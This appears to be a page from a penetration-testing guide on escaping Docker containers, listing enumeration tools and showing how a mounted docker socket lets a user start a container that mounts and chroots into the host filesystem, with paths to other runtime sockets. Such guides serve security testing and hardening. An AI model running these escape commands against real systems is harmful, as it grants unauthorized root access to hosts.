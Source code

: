 # Docker Breakout / Privilege Escalation

## Automatic Enumeration & Escape

* [**linpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS): It can also **enumerate containers**
* [**CDK**](https://github.com/cdk-team/CDK#installationdelivery): This tool is pretty **useful to enumerate the container you are into even try to escape automatically**
* [**amicontained**](https://github.com/genuinetools/amicontained): Useful tool to get the privileges the container has in order to find ways to escape from it
* [**deepce**](https://github.com/stealthcopter/deepce): Tool to enumerate and escape from containers
* [**grype**](https://github.com/anchore/grype): Get the CVEs contained in the software installed in the image

## Mounted Docker Socket Escape

If somehow you find that the **docker socket is mounted** inside the docker container, you will be able to escape from it.\
This usually happen in docker containers that for some reason need to connect to docker daemon to perform actions.

```bash
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
```

In this case you can use regular docker commands to communicate with the docker daemon:

```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```

{% hint style="info" %}
In case the **docker socket is in an unexpected place** you can still communicate with it using the **`docker`** command with the parameter **`-H unix:///path/to/docker.sock`**
{% endhint %}

Docker daemon might be also [listening in a port (by default 2375, 2376)](../../../pentesting/2375-pentesting-docker.md) or on Systemd-based systems, communication with the Docker daemon can occur over the Systemd socket `fd://`.

{% hint style="info" %}
Additionally, pay attention to the runtime sockets of other high-level runtimes:

* dockershim: `unix:///var/run/dockershim.sock`
* containerd: `unix:///run/containerd/containerd.sock`
* cri-o: `unix:///var/run/crio/crio.sock`
* frakti: `unix:///var/run/frakti.sock`
* rktlet: `unix:///var/run/rktlet.sock`
* ...
{% endhint %}
